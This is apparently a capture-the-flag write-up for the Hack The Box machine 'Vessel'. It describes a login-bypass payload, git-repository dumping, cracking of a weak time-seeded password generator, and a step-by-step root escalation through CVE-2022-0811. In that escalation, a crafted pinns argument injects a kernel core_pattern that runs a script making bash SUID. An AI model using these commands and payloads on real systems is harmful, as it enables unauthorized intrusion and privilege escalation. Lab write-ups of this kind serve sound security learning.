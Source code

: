 ```yaml
---
title: "Hack The Box - Vessel [Hard]"
category: ctf-writeup
layout: post
---
```


# Overview

Since it becomes very time consuming doing this in a video this write-up is going to be in a text.

The machine is labeled hard with a good reason, most of the tasks are time consuming but there are some interesting vulnerabilities like [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) and [CVE-2022-24637](https://www.exploit-db.com/exploits/51026).

On top of these we have [NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection) and some PE reverse engineering.

# Write-up

### Flag 1

First I began enumerating the whole website with `ffuf`.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u "http://vessel.htb/FUZZ" -fs 26
```

With that I discovered a folder called `dev` which then led me to dumping the git repository of the website:

```
$ git-dumper http://vessel.htb/dev/.git ./website_dump
```

With the website avaliable, I can check the actual source code for vulnerabilities, immediately after opening the `routes/index.js` I have noticed that this code might be vulnerable to NoSQL Injection.

```javascript
...
let username = req.body.username;
let password = req.body.password;
if (username && password) {
connection.query('SELECT * FROM accounts WHERE username = ? AND password = ?', [username, password], function(error, results, fields) { ...
```

The code doesn't check if the passed values if they are objects, I can use a crafted NoSQL payload to successfully login 
with the admin user using this payload while doing the POST request:

```
username=admin&password[password]=1
```

Upon another discovery in the admin panel, I found that there is another domain on the host called `openwebanalytics`. From further investigation over what can be exploted there I have landed on [CVE-2022-24637](https://www.exploit-db.com/exploits/51026). With that exploit I could run a successful reverse shell on the machine. 

Using [linpeas](https://github.com/carlospolop/PEASS-ng) I found some useful information over the user `steven`

```
/home/steven/passwordGenerator # Windows PE Exectuable
/home/steven/.notes/screenshot.png # Screenshot of some program
/home/steven/.notes/notes.pdf # Password protected PDF
```

I suspected that the `screenshot.png` is am image of the `passwordGenerator`.On the other hand the `passwordGenerator` was unusually big and the whole use of that binary is to create 'secure' passwords. I noticed the python icon on the binary and I suspected that this could be a packed python project with `PyInstaller`. I confirmed that when I loaded the whole thing in Ghidra/IDA.

I have used [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract the `*.pyc` files, and then the [uncomplyle6](https://pypi.org/project/uncompyle6/) to decompile the `*.pyc` files. Which has led me to the actual source code of the binary:

This is the function that generates the password:

```python
def genPassword(self):
        length = value
        char = index
        if char == 0:
            charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?'
        else:
            if char == 1:
                charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
            else:
                if char == 2:
                    charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890'
                else:
                    try:
                        qsrand(QTime.currentTime().msec())
                        password = ''
                        for i in range(length):
                            idx = qrand() % len(charset)
                            nchar = charset[idx]
                            password += str(nchar)

                    except:
                        msg = QMessageBox()
                        msg.setWindowTitle('Error')
                        msg.setText('Error while generating password!, Send a message to the Author!')
                        x = msg.exec_()

                return password
```

I edited the `length` to 32 (as I have it on the screenshot) and edited the script a bit more to create a list out of possible passwords. I can do that because the `QTime.currentTime().msec()` function returns the numbers from 1-1000 with that range I have a big chance of guessing the generated password.

> **Note**: This process can be a bit frustrating since it takes time to generate the passwords. I personally spent little over an hour.

Then I used `pdfcrack` to crack the password of the PDF, there I found the password for the user `ethan` and I successfully logged in with it and I found the first flag.

### Flag 2

I ran `linpeas.sh` again, and I found the following `SUID` binary:

```
...
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root ethan 814936 Mar 15  2022 /usr/bin/pinns    
...
```

I searched around a bit what is this, and I landed on the [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) which exploited this binary. While doing this, I noticed that I also have the `runc`. 

```                                                                                               
╔══════════╣ Container related tools present
/usr/sbin/runc       
```

This was a very tricky one, and it needs some understanding of what's going on to successfully execute the attack. You can check out the link I've provided for [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) to understand more about it. On the actual POC they have used Kubernetes, on our end I had to use  `runc`.

The parameters that are being passed to `pinns` are not being sanitized and validated, so I can use that to execute code with root access.

I needed to create a container using the `runc` without using `root` so I've used the `--rootless` arg.

Reference: https://github.com/opencontainers/runc/#rootless-containers

```
$ mkdir /tmp/syl
$ cd /tmp/syl/
$ runc spec --rootless
$ mkdir rootfs
$ echo "chmod +s /usr/bin/bash" > syl.sh
```

Then I should mount the root to the root of the container:

Reference: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation

```
$ runc --root /tmp/syl/ run alpine
# cat /etc/machine-id
c4ca4238a0b923820dcc509a6f75849b
```

This will run the container and spawn a shell. Next I would ssh into the machine from another session to execute the `pinns` binary to our container. 

```
$ /usr/bin/pinns -d /var/run -f c4ca4238a0b923820dcc509a6f75849b -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/syl/syl.sh #' --ipc --net --uts --cgroup
```

Then I need to trigger a core dump so that the `pinns` would execute the script in a case of a core dump. Following the PoC in crowdstrike:

```
# ulimit -c unlimited
# ulimit -c
unlimited
# tail -f /dev/null &
# ps
.. Find the `tail -f /dev/null` PID
# kill -SIGSEGV {thePID}
[1]+  Segmentation fault (core dumped) tail -f /dev/null
```

Back to the other session

```
$ bash -p
$ cat /root/root.txt
{HASH}
```
